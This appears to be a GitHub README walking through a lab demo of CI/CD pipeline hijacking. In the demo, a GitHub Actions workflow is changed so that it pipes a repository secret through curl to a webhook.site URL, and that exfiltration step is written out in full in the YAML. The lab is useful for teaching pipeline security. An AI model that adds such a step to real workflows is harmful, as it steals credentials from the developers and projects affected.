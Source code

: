 # Using CI/CD pipelines to infiltrate without dropping a shell

A demo that shows how to hijack a CI/CD pipeline and exfiltrate secrets — without ever dropping a reverse shell. This attack uses GitHub Actions and simulates real-world access to a compromised developer account.

---

## Prerequisites

Before you begin, make sure you have the following:

- **A GitHub account** (with permission to create private repositories).
- **Git installed and configured** on your machine.
  - You can verify by running: `git --version`
- **Internet access** to connect to GitHub and Webhook.site.
- **A browser** to:
  - Access [https://github.com](https://github.com)
  - Use [https://webhook.site](https://webhook.site) to receive the exfiltrated secret.
- **(Optional)** A GitHub personal access token (PAT) if you prefer pushing via HTTPS with authentication.

## Step 1: Create a simple GitHub repository

Login to your GitHub account and create a private repository named ci-cd-hijack-minimal. Then setup a repository on your local machine using the following commands:

```bash
mkdir ci-cd-hijack-minimal
cd ci-cd-hijack-minimal
echo "This is a test repo." > README.md
git init
git add .
git commit -m "Initial commit"
```
## Step 2: Create a GitHub Actions workflow

Create the folder:
```bash
mkdir -p .github/workflows
```
Then create .github/workflows/ci.yml:

```yaml
name: Minimal CI

on:
  push:
    branches: [ main ]

jobs:
  build:
    runs-on: ubuntu-latest
    env:
      API_KEY: ${{ secrets.API_KEY }}

    steps:
    - name: Checkout code
      uses: actions/checkout@v3

    - name: Print message
      run: echo "Build passed!"
```

## Step 3: Add a secret

Go to your GitHub repo > Settings > Secrets and Variables > Actions, and add:

- Name: `API_KEY`
- Value: `minimal_demo_secret_456`


## Step 4: Obtain WebHook URL

Go to [https://webhook.site/](https://webhook.site/) and copy the value shown in Your unique URL

## Step 5: Inject the malicious line

Now modify the workflow to include your exfiltration step (remember to replace `https://webhook.site/your-unique-id` with the URL you copied earlier):

```yaml
- name: Exfiltrate Secret
  run: |
    echo $API_KEY | curl -X POST -d @- https://webhook.site/your-unique-id
```

Full .github/workflows/ci.yml after injection:

```yaml
name: Minimal CI

on:
  push:
    branches: [ main ]

jobs:
  build:
    runs-on: ubuntu-latest
    env:
      API_KEY: ${{ secrets.API_KEY }}

    steps:
    - name: Checkout code
      uses: actions/checkout@v3

    - name: Exfiltrate Secret
      run: |
        echo $API_KEY | curl -X POST -d @- https://webhook.site/your-unique-id

    - name: Print message
      run: echo "Build passed!"
```

## Step 6: Push and trigger the workflow

git add .
git commit -m "Add basic CI workflow"
git branch -M main
git remote add origin https://github.com/your-username/ci-cd-hijack-minimal.git
git push -u origin main

Then watch the Actions tab in GitHub — and check your Webhook.site to see the stolen secret.

